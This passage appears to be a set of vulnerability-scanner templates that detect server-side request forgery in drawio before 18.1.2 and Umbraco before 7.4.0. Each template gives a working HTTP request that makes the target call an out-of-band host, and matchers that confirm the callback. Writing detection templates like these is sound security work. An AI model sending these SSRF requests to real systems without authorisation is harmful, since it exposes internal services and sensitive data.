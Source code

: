 - SSRF in /service endpoint in jgraph/drawio prior to 18.1.2. Exposure of Sensitive Information to an Unauthorized Actor in GitHub repository jgraph/drawio prior to 18.1.2.

- severity - high
- tags - huntr,cve,cve2022,drawio,ssrf,oast,oss,jgraph

## Requests

### Step - 1

```
GET /service/0/test.oast.me HTTP/2
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body, 'Interactsh Server')
  2. status_code == 200
- condition - and

---

# Umbraco \<7.4.0- Server-Side Request Forgery

## Description

- Umbraco before version 7.4.0 contains a server-side request forgery vulnerability in feedproxy.aspx that allows attackers to send arbitrary HTTP GET requests via http://local/Umbraco/feedproxy.aspx?url=http://127.0.0.1:80/index.
- severity - high
- tags - cve,cve2015,ssrf,oast,umbraco

## Requests

- Method - GET

### URL

- {{BaseURL}}/Umbraco/feedproxy.aspx?url=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---